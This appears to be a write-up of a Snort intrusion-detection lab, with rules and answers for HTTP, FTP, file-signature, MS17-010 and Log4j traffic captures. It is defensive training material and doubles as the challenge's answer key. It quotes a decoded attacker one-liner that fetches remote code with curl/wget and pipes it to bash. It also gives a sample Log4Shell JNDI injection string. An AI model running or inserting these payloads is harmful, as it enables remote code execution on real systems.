





# SNORT CHALLENGE - The Basics

## Tools Used

- **NVD CVE Search** – Used to look up vulnerabilities such as MS17-010 and Log4j.
- **Snort** – Used for creating detection rules, reading alerts, and analyzing logs.
- **CyberChef** – Used for decoding Base64-encoded strings and other data transformations.
- **Grep / Sort (Command Line Tools)** – Used to filter, search, and organize log data.

---

## Challenge:

Investigate a series of traffic captures and identify malicious activity across multiple scenarios.

---

## Writing IDS Rules (HTTP)

Navigate to the task folder and use the provided `.pcap` file.  
Create a rule to detect all TCP packets sent to or from port 80.

**Q1. What is the number of detected packets?**  
In the `TASK-2 (HTTP)` directory, I created the following rule inside `local.rules`:

```snort
alert tcp any any <> any 80 (msg:"TCP TEST";sid:100001;rev:1;)
````

I ran the command:

```bash
snort -c local.rules -A full -l . -r mx3-pcap
```

Then checked the "Action Stats" section for the "Alerts" count.  
  

**Answer: 164**  


---

**Q2. What is the destination address of packet 63?**
Used the logs to locate packet 63.  
  
  
**Answer: 216.239.59.99**


---

**Q3. What is the ACK number of packet 64?**  
Inspected the logs for packet 64.  
  
  

**Answer: 0x2E6B5384**  


---

**Q4. What is the SEQ number of packet 62?**  
Counted backward from packet 64 to find packet 62 in the logs.  
   

**Answer: 0x36C21E28**  


---

**Q5. What is the TTL of packet 65?**  
Inspected the TTL value directly from the log.  
  
  

**Answer: 128**

---

**Q6. What is the source IP of packet 65?**  
Checked packet 65’s log entry using the same command.  
  

**Answer: 145.254.160.237**  


---

**Q7. What is the source port of packet 65?**  
Reviewed the logs for source port information.  
  

**Answer: 3372**  

---

## Writing IDS Rules (FTP)  


Navigate to the task folder and use the provided `.pcap` file.  

**Q8. Write a rule to detect all TCP port 21 traffic. What is the number of detected packets?**  
Created the rule, ran the command, and verified output.  
  
  
  

**Answer: 307**  

---

**Q9. What is the FTP service name?**  
Initially, I thought the question asked for what FTP stands for. However, knowing FTP is an unencrypted protocol, I performed an ASCII and hex payload dump (`-X`) limited to the first 4 packets (`-n 4`). The FTP server’s 220 response message (per RFC 959 section 5.4) included a greeting revealing the service name.  
  
  


**Answer: Microsoft FTP Service**  


---

**Q10. Detect failed FTP login attempts. What is the number of detected packets?**  
According to FTP RFC 959, the code for failed login is `530`. I wrote a rule using `content:"530";` or `content:"cannot log in";` to detect failed logins.  
  
  
  
   


**Answer: 41**  


---

**Q11. Detect successful FTP logins. What is the number of detected packets?**  
FTP code `230` indicates a successful login ("User logged in, proceed."). I created a rule with `content:"230";` to detect this.  
  
  
  

**Answer: 1**  

---

**Q12. Detect FTP login attempts with a valid username but no password yet entered. What is the number of detected packets?**  
FTP code `331` means "User name okay, need password." I wrote a rule to detect this state.  
  
  
  

**Answer: 42**  

---

**Q13. Detect FTP login attempts with the username "Administrator" but no password yet entered. What is the number of detected packets?**  
Using FTP code `331` combined with `content:"Administrator";` and a fast\_pattern modifier prioritized the code matching before the username string.  
  
  
  

**Answer: 7**  

---

## Writing IDS Rules (PNG)  


**Q14. Write a rule to detect the PNG file in the `.pcap`. Identify the software name embedded in the packet.**  
I searched for the PNG magic number (first four bytes): `|89 50 4E 47|`. Such magic numbers are common file signatures used for file recovery.  
  
  
  

**Answer: Adobe ImageReady**  


---

**Q15. Write a rule to detect the GIF file in the `.pcap`. Identify the image format embedded in the packet.**    
I used the GIF magic number (first four bytes).    
  
  
  


**Answer: GIF89a**  


---

## Writing IDS Rules (Torrent Metafile)  


**Q16. Write a rule to detect the torrent metafile in the `.pcap`. What is the number of detected packets?**  
After researching torrent metafile extensions (`.torrent`), I crafted a matching rule.  
  
  


**Answer: 2**  

---

**Q17. What is the name of the torrent application?**  
Read the payload from the log and identified the application name.  
  
  

**Answer: bittorrent**  

---

**Q18. What is the MIME type of the torrent metafile?**  
Used payload analysis to find MIME type.  
   

**Answer: Application/x-bittorrent**  

---

**Q19. What is the hostname of the torrent metafile?**  
Payload inspection revealed the hostname.  
  

**Answer: tracker2.torrentbox.com**  

---

## Troubleshooting Rule Syntax Errors  


**Q20. Fix syntax errors in `local-1.rules`. What is the number of detected packets?**  
The initial error was a missing space between the destination port and rule options.  
  
  
  
  


**Answer: 16**  

---

**Q21. Fix syntax errors in `local-2.rules`. What is the number of detected packets?**  
The source port was missing in the rule.  
    
  

  


**Answer: 68**  

---

**Q22. Fix syntax errors in `local-3.rules`. What is the number of detected packets?**  
Two syntax errors: destination ports must be in list format with braces `{}`, and SID numbers must be unique.  
  
  
  

**Answer: 87**  


---

**Q23. Fix syntax errors in `local-4.rules`. What is the number of detected packets?**  
Three fixes: add braces around destination ports, add a semicolon after the `msg` field, and increment one of the SID numbers.  
  
  
  

**Answer: 90**  


---

**Q24. Fix syntax errors in `local-5.rules`. What is the number of detected packets?**  
Fixes included adding braces around ports, correcting the direction operator to `->` for traffic direction, adding colon in SID, and adding semicolons to TCP message.  
  
  
  

**Answer: 155**  


---

**Q25. Fix logical errors in `local-6.rules`. What is the number of detected packets?**  
I replaced the hex for "GET" with the ASCII string "GET" and added ports 80 and 443 to detect HTTP and HTTPS.  
  
  


**Answer: 2**  


---

**Q26. Fix logical errors in `local-7.rules`. What is the name of the required option?**  
Missing the `msg` option, which is mandatory in Snort rules. I set it to ".html" after decoding the hex content with CyberChef.  
  
  

**Answer: msg**  


---

## Using External Rules (MS17-010)  


**Q27. Use the provided `local.rules` file to investigate the MS17-010 exploit. What is the number of detected packets?**  
  
  

**Answer: 25154**  


---

**Q28. Write a rule to detect payloads containing the `"\IPC$"` keyword. What is the number of detected packets?**  
  
  

**Answer: 12**  


---

**Q29. What is the requested path?**  
  
  

**Answer: \192.168.116.138\IPC\$**  


---

**Q30. What is the CVSS v2 score of the MS17-010 vulnerability?**  
Looked up at NVD (nvd.nist.gov) for CVE-2017-0144.  
  

**Answer: 9.3**  

---

## Using External Rules (Log4j)  


**Q31. Use the provided `local.rules` file to investigate Log4j exploitation. What is the number of detected packets?**  
  

**Answer: 26**  


---

**Q32. How many rules were triggered?**  
  

**Answer: 4**  


---

**Q33. What are the first six digits of the triggered rule SIDs?**  

**Answer: 210037**  


---

**Q34. Write a rule to detect packets with payload sizes between 770 and 855 bytes. What is the number of detected packets?**  
Used the `dsize:770<>855;` option.  
  
 
**Answer: 41**  


---

**Q35. What is the name of the encoding algorithm used?**  
Decoded payload and identified Base64 encoding.  
  

**Answer: Base64**  


---

**Q36. What is the IP ID of the corresponding packet?**  
Found IP ID in the matching packet.  
  

**Answer: 62808**  

---

**Q37. Decode the encoded command. What is the attacker's command?**  
Decoded using CyberChef, the command was:  

```bash
(curl -s 45.155.205.233:5874/162.0.228.253:80 || wget -q -O- 45.155.205.233:5874/162.0.228.253:80) | bash
```
  

**Answer:**
`(curl -s 45.155.205.233:5874/162.0.228.253:80 || wget -q -O- 45.155.205.233:5874/162.0.228.253:80) | bash`  


---

**Q38. What is the CVSS v2 score of the Log4j vulnerability?**  
Looked up CVE-2021-44228 on NVD and checked CVSS v2 metrics.  
  

**Answer: 9.3**  


---
## Lessons Learned

**Snort** is a powerful open-source tool used for network traffic analysis, creating intrusion detection and prevention system (IDS/IPS) rules, and performing packet sniffing.

**MS17-010** is a critical vulnerability in Microsoft's SMBv1 servers that allows remote code excution. It's commonly exploited during the initial access and lateral movement stages of an attack by abusing flaws in code, services, or the operating systems kernel. A well known example of malware that leveraged this vulnerability is the 'WannaCry' ransomware, which rapidly spread across networks by exploiting this flaw. 

**Log4j** is a remorte code execution (RCE) vulnerability affecting versions 2.0-beta9 through 2.14.1 of the Apache Log4j logging library. Widely used across consumer and enterprise applications,websites, and operational technology products, Log4j is responsible for logging security and performance data. The vulnerbility, 'Log4Shell', is easily exploitable by injecting a specially crafted Java Naming and Directory Interface (JNDI) lookup string-such as '${jndi:ldap://attacker.com/file}'-into a log message. This can be seen in the hex dump from Question 36.  

```


